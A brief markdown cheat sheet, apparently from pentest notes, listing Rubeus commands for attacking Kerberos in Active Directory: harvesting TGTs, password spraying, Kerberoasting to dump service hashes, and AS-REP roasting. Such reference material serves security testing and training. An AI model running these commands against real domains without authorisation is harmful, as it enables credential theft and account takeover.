 # Rubeus

## Ticket Harvesting

Listen for incoming TGT calls on the DC. Allows to harvest TGT tickets and users in the domain

```
Rubeus.exe harvest /interval:<seconds>
```

## Password Spraying

Allows to spray a selected password against the users detected with the previous attack

```
Rubeus.exe brute /password:<password> /noticket
```

## Kerberoast

Returns a list of services vulnerable to Kerberoast attacks and relative Kerberos Hash

```
Rubeus.exe kerberoast /stats    #get information on vulnerable accounts
Rubeus.exe kerberoast           #dump hashes
```

## AS-REP Roasting

Returns hashes of users with  the flag "Do not require Kerberos pre-authentication" disabled

```
Rubeus.exe asreproast
```
